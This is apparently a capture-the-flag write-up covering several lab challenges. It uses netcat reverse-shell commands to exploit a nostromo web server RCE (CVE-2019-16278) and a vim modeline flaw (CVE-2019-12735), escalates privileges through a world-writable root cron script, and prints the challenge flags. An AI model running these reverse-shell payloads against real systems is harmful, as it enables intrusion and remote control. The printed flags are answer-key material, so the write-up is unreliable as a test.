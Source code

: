 Fire up tcpdump and read the flag send to us with UDP packets

```bash
tcpdump -i tap0 -A
```

🏁 __gigem{Raunch05_got_el3ctr0lytes}__{:.spoiler}

## My first blog

There's only one host, and it only has port 80 open.

Browsing an error page shows us that the webserver runs on nostromo 1.9.6 which is vulnerable to RCE [[CVE-2019-16278](https://www.exploit-db.com/exploits/47837)].

The vulnerability can be exploited using the python script form `exploit-db` or the module `exploit/multi/http/nostromo_code_exec` in metasploit.

```bash
python2 exploit.py 172.30.0.2 80 'nc -e "/bin/sh" 172.30.0.14 12345'
```

`ps aux` shows that there's `/tmp/start.sh` that's run by root. It's used to run `nhttpd` and `cron`.

In `/etc/crontab` there's a user defined entry

```text
* * * * * root /usr/bin/healthcheck
```

`healthcheck` is owned by root but has 777 permission.

Add `cat /root/flag.txt > /tmp/flag.txt` at the end, et voila!

🏁 __gigem{l1m17_y0ur_p3rm15510n5}__{:.spoiler}

## Obituary_1

> Hey, shoot me over your latest version of the code. I have a simple nc session up, just pass it over when you're ready.
> You're using vim, right? You should use it; it'll change your life. I basically depend on it for everything these days!

Server has port 4321 open.

Reading challenge description, we can assume that there's a nc session that pipes into vim.

Searching for vim vulnerabilites, lead us to a pretty version-specific vulnerability [CVE-2019-12735](https://github.com/numirias/security/blob/master/doc/2019-06-04_ace-vim-neovim.md)

```
echo ':!nc -e /bin/sh 172.30.0.14 4242||" vi:fen:fdm=expr:fde=assert_fails("source\!\ \%"):fdl=0:fdt="' | nc -ncvv 172.30.0.2 4321
```

It was the right one and it successfully popped a shell.

```
cat /home/mwazowski/flag.txt
```
